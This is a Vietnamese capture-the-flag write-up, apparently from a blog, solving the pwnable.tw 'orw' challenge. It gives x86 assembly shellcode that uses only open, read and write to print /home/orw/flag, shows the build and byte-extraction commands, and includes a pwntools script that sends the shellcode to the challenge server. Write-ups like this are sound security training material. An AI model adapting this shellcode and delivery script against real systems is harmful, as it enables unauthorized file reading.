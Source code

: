 # [orw][[pwnable.tw](https://pwnable.tw)]

>Read the flag from ```/home/orw/flag```
>
>Only ```open``` ```read``` ```write``` syscall are allowed to use.
>
>```nc chall.pwnable.tw 10001```
>
>[orw](https://pwnable.tw/static/chall/orw)

OK cũng như các bài khác mình sẽ check kiểu file và strings

Kiểu file:

 ![Kiểu file]({{ site.url }}/assets/orw_file.PNG)

Strings:

 ![Strings]({{ site.url }}/assets/orw_string.PNG)

Strong ```chall``` này mình để ý nhất đề string ```"Give me your shellcode"```.

Load chall vào IDA

![Main]({{ site.url }}/assets/orw_main.PNG)

Bài này đơn giản chỉ là đọc 1 đoạn shellcode người dùng nhập vào và thực thi doạn shellcode đó.

Quay lại vói đề bài. Ta biết vị trí của flag ```/home/orw/flag```. Biết được rằng chỉ được sử dụng các ```syscall```: ```open```, ```read```, ```write```.

Mình nghĩ mục đích của bài này để thử thách người chơi về kĩ năng tạo shellcode mà thôi

Mình sẽ sử dụng asm viết 1 đoạn chương trình đọc file và in ra màn hình sử dụng các syscall được cho phép. Rồi dùng objdump để tạo shellcode

```c
section .text
    global _start

_start:
    ;open
    mov     edx, 0
    mov     ecx, 0
    ;/home/orw/flag
    push    'ag'
    push    'w/fl'
    push    'e/or'
    push    '/hom'
    mov     ebx, esp
    mov     eax, 5
    int     80h

    ;read
    mov     edx, 30h
    mov     ecx, ebx
    mov     ebx, eax
    mov     eax, 3
    int     80h

    mov     edx, eax
    mov     eax, 4
    mov     ebx, 1
    int     80h
    ;exit
    mov     eax, 1
    int     80h

```

Biên dịch với nasm:

```sh
nasm -f elf test.asm
ld -m elf_i386 -s -o test_1 test.o
```

Dump:

```sh
for i in $(objdump -d test_1 |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```

Sau khi bước này mình đã có shellcode trong tay. Việc còn lại sẽ tương tự như ```start``` challenge trong bài viết trước

Python code:

```python
from pwn import *

host = "chall.pwnable.tw"
port = 10001

shellcode = "\xba\x00\x00\x00\x00\xb9\x00\x00\x00\x00\x68\x61\x67\x00\x00\x68\x77\x2f\x66\x6c\x68\x65\x2f\x6f\x72\x68\x2f\x68\x6f\x6d\x89\xe3\xb8\x05\x00\x00\x00\xcd\x80\xba\x30\x00\x00\x00\x89\xd9\x89\xc3\xb8\x03\x00\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80"

con = remote(host, port)
print con.recv(1024)

con.send(shellcode)
print con.recv(1024)
con.close()


```

And boooomaa..................

![Flag]({{site.url}}/assets/orw_flag.png)